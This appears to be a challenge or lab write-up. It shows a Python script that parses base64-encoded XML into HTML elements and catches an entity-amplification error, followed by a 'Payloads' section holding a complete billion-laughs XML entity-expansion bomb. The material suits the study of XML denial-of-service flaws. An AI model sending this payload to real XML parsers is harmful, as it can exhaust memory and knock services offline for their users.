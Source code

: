 ```python
data = ""

color = "#FFFFFF"
text = "Hello World !"
type_ = "p"

try:
    root = fromstring(b64decode(stdin.read()).decode())
except ParseError as error:
    print(error)
    if error.args[0].startswith("no element found:"):
        print("Incorrect XML, example:", example)
        exit(1)
    if error.args[0].startswith("limit on input amplification factor (from DTD and entities) breached"):
        print("DOS attack... I'm dead !")
        exit(127)
    raise error

# root = tree.getroot()

for child in root:
    if child.tag == "text":
        for subchild in child:
            if subchild.tag == "color":
                if fullmatch(r"#[A-Fa-f\d]{6}", subchild.text):
                    color = subchild.text
                else:
                    print('<p color="#FF0000" style="color: #ff0000">Incorrect color !</p>', file=stderr)
                    exit(2)
            elif subchild.tag == "data":
                text = escape(subchild.text)
            elif subchild.tag == "type":
                if fullmatch(r"\w+", subchild.text):
                    type_ = subchild.text
                else:
                    print('<p color="#FF0000" style="color: #ff0000">Incorrect type !</p>', file=stderr)
                    exit(3)
        data += f'<{type_} style="color: {color};">{text}</{type_}>\n            '

print(output.safe_substitute(data=data))

exit(0)
```

Payloads:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
```